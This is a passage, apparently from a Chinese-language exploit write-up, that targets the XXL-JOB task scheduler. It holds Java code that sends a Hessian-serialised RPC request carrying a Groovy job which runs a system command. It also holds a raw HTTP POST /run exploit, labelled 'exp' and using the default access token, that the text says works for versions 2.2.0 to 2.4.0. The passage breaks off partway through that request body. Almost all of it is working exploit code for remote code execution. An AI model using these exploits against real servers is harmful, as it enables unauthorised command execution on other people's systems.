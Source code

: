 ```bash
                "import com.xxl.job.core.biz.model.ReturnT;\n" +
                "import com.xxl.job.core.handler.IJobHandler;\n" +
                "import java.lang.Runtime;\n" +
                "\n" +
                "public class DemoGlueJobHandler extends IJobHandler {\n" +
                "\n" +
                "\t@Override\n" +
                "\tpublic ReturnT<String> execute(String param) throws Exception {\n" +
                "      \tRuntime.getRuntime().exec(\"calc\");\n" +
                "\t\treturn ReturnT.SUCCESS;\n" +
                "\t}\n" +
                "\n" +
                "}\n";

        System.out.println(code);

        TriggerParam params = new TriggerParam();
        params.setJobId(10);
        params.setExecutorBlockStrategy("SERIAL_EXECUTION");
        params.setLogId(10);
        params.setLogDateTime((new Date()).getTime());
        params.setGlueType("GLUE_GROOVY");
        params.setGlueSource(code);
        params.setGlueUpdatetime((new Date()).getTime());

        XxlRpcRequest xxlRpcRequest = new XxlRpcRequest();
        xxlRpcRequest.setRequestId("111");
        xxlRpcRequest.setClassName("com.xxl.job.core.biz.ExecutorBiz");
        xxlRpcRequest.setMethodName("run");
        xxlRpcRequest.setParameterTypes(new Class[]{TriggerParam.class});
        xxlRpcRequest.setParameters(new Object[] {params});
        xxlRpcRequest.setCreateMillisTime((new Date()).getTime());

        HessianSerializer serializer = new HessianSerializer();

        byte[] data = serializer.serialize(xxlRpcRequest);
        sendData("http://127.0.0.1:9999", data);

    }
}
```

## 2, 2.2.0<=XxlJob<=2.4.0

支持了 RESTFUL API，可以直接发送 http 包伪造  
exp

```bash
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
```